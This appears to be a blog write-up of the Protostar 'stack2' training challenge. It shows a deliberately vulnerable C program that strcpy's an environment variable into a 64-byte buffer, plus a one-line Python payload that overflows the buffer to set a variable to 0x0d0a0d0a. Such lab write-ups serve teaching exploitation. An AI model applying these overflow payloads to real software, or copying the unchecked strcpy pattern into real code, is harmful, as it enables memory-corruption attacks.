 ```yaml
---
title: Protostar Writeup - stack2
updated: 2018-07-26 21:00
---
```


## Protostar - stack2

The aim of this challenge is to again change the modified variable, except that this one has a slight change.
We need to set an environment variable called `GREENIE`, whose value will be copied into buffer using the `strcpy()` method.
Here's the code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    char *variable;

    variable = getenv("GREENIE");

    if(variable == NULL) {
        errx(1, "please set the GREENIE environment variable\n");
    }

    modified = 0;

    strcpy(buffer, variable);

    if(modified == 0x0d0a0d0a) {
        printf("you have correctly modified the variable\n");
    } else {
        printf("Try again, you got 0x%08x\n", modified);
    }

}
```

We need to some how get the value from buffer into the `modified` variable. So this is a standard stack overflow attack.
Now the question is how do we overflow the stack? The `strcpy()` method looks like the only thing we can exploit.
So lets take a look at the man pages. We find what we're and we don't have to look far.

> Beware of buffer overruns!

This confirms that we will be exploiting this method. First things first. We need the buffer length.
From the code we see that it's 64 bytes, something familiar we've seen in the [previous]() problem.
Our padding is therefore 64 bytes and another thing is the value which we need to set. This is `0x0d0a0d0a`.
Keep in mind that this will have to be written in the little endian format.
Here's what our environment variable will look like.

```shell
$ export GREENIE=$(python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'")
```

After setting the environment variable, let's check whether it works.

```shell
$ ./stack2
you have correctly modified the variable
```

That was simple, since we had some intuition from the previous exercises. That's why the Protostar challenge is a good place to start.
Everything is organised. So each level depends on knowledge obtained in the previous levels.



